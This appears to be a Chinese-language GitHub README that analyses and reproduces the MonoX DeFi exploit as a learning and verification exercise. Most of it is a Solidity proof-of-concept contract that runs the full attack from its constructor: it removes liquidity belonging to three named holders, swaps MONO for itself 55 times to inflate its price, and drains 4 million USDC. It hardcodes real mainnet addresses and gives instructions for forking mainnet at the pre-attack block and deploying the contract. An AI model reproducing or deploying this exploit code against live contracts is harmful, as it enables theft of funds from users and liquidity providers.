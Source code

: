# MonoX_Vul
MonoX被攻击事件的分析和复现

[攻击事件的分析](https://github.com/W2Ning/MonoX_Vul_/blob/main/MonoX%E6%94%BB%E5%87%BB%E4%BA%8B%E4%BB%B6%E5%88%86%E6%9E%90.md)


[部署即攻击版完整代码](https://github.com/W2Ning/MonoX_Vul_/blob/main/poc.sol)

[步骤拆分版完整代码](https://github.com/W2Ning/MonoX_Vul_/blob/main/Step_By_Step.sol)

### 核心攻击代码

* 注意下面的代码缺少Interface, 不能直接复制
* 所有的攻击步骤都在构造函数`constructor()`中实现, 也就是说当合约部署完成,攻击也已经完成
* 本次复现仅做原理性验证, 攻击者通过闪电贷来避免滑点,实现利益最大化
* 但其实不调用闪电贷,攻击的主要步骤也已经完成,所以攻击者的后续操作就没有再跟进
* POC只尝试从池子中拿走400万`USDC`,就结束了攻击

```js
contract POC{

    address WETH9_Address = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;

    address Mono_Token_Address = 0x2920f7d6134f4669343e70122cA9b8f19Ef8fa5D;

    address MonoXPool_Address = 0x59653E37F8c491C3Be36e5DD4D503Ca32B5ab2f4;

    address Monoswap_address =  0xC36a7887786389405EA8DA0B87602Ae3902B88A1;
    // 无辜的大户地址1
    address Innocent_user_1 = 0x7B9aa6ED8B514C86bA819B99897b69b608293fFC;
    // 无辜的大户地址2
    address Innocent_user_2 = 0x81D98c8fdA0410ee3e9D7586cB949cD19FA4cf38;
    // 无辜的大户地址3
    address Innocent_user_3 = 0xab5167e8cC36A3a91Fd2d75C6147140cd1837355;

    address USDC_Address =  0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;

    uint256 Amount_Of_MonoToken_On_XPool;

    uint256 public Amount_Of_USDC_On_XPool;
    
    uint256 public Amoount_Of_Mono_On_This; 


    constructor()  public payable{
        // 把MonoToken的全部额度授权给MonoSwap 
        MonoToken(Mono_Token_Address).approve(Monoswap_address,type(uint256).max);
        // 把0.1个ETH换成0.1个WETH
        WETH9(WETH9_Address).deposit{value:address(this).balance,gas:40000}();
        // 把0.1个WETH的额度授权给MonoSwap
        WETH9(WETH9_Address).approve(Monoswap_address,0.1 ether);
        // 用0.1个WETH在MonoSwap上购买MonoToken
        Monoswap(Monoswap_address).swapExactTokenForToken(WETH9_Address,Mono_Token_Address,0.1 ether,1,address(this),block.timestamp);
        // 把XPool中三个大户的流动性全部剔除
        RemoveLiquidity_From_3_Users();
        // 添加自己的流动性
        Monoswap(Monoswap_address).addLiquidity(Mono_Token_Address,196875656,address(this));
        // 用Mono换Mono 共55次
        Swap_Mono_for_Mono_55_Times();
        // 用极少量的Mono换到400万的USDC
        Swap_Mono_For_USDC();

    }


    function RemoveLiquidity_From_3_Users() internal{
        uint256 balance_Of_User1 = MonoXPool(MonoXPool_Address).balanceOf(Innocent_user_1,10);

        Monoswap(Monoswap_address).removeLiquidity(Mono_Token_Address,balance_Of_User1,Innocent_user_1,0,1);

        uint256 balance_Of_User2 = MonoXPool(MonoXPool_Address).balanceOf(Innocent_user_2,10);

        Monoswap(Monoswap_address).removeLiquidity(Mono_Token_Address,balance_Of_User2,Innocent_user_2,0,1);

        uint256 balance_Of_User3 = MonoXPool(MonoXPool_Address).balanceOf(Innocent_user_3,10);

        Monoswap(Monoswap_address).removeLiquidity(Mono_Token_Address,balance_Of_User3,Innocent_user_3,0,1);
    }

    function Swap_Mono_for_Mono_55_Times() internal{

        for(uint256 i=0;i < 55; i++){

            (,,,,,,Amount_Of_MonoToken_On_XPool,,) = Monoswap(Monoswap_address).pools(Mono_Token_Address);

            Monoswap(Monoswap_address).swapExactTokenForToken(Mono_Token_Address,Mono_Token_Address,Amount_Of_MonoToken_On_XPool-1,0,address(this),block.timestamp);
            
        }
    }

    function Swap_Mono_For_USDC() internal{

        (,,,,,,Amount_Of_USDC_On_XPool,,) = Monoswap(Monoswap_address).pools(USDC_Address);

        Amoount_Of_Mono_On_This = MonoToken(Mono_Token_Address).balanceOf(address(this));

        Monoswap(Monoswap_address).swapTokenForExactToken(Mono_Token_Address,USDC_Address,Amoount_Of_Mono_On_This,4000000000000,msg.sender,block.timestamp);
    }


    receive() payable external{}


    function onERC1155Received(address _operator, address _from, uint256 _id, uint256 _value, bytes calldata _data) external returns(bytes4){
        bytes4 a = 0xf23a6e61;
        return a;
    }
```

### 复现方法

* 主网上的攻击发生在高度为`13715026`的块上, 所以同样我们选前一个块去fork

```
npx ganache-cli  --fork https://eth-mainnet.alchemyapi.io/v2/Your_API_KEY@13715025   -l 4294967295
```

* 部署攻击合约 注意部署时要带上100个`Finney`, 也就是0.1个`ETH`

![image](https://github.com/W2Ning/MonoX_Vul_/blob/main/images/%E9%83%A8%E7%BD%B2%E6%94%BB%E5%87%BB%E5%90%88%E7%BA%A6.png)

* 攻击前的MetaMask钱包余额

![image](https://github.com/W2Ning/MonoX_Vul_/blob/main/images/%E6%94%BB%E5%87%BB%E5%89%8D%E7%9A%84MetaMask%E9%92%B1%E5%8C%85%E4%BD%99%E9%A2%9D.png)

* 攻击后的钱包余额

![image](https://github.com/W2Ning/MonoX_Vul_/blob/main/images/%E6%94%BB%E5%87%BB%E5%90%8E%E7%9A%84%E9%92%B1%E5%8C%85%E4%BD%99%E9%A2%9D.png)

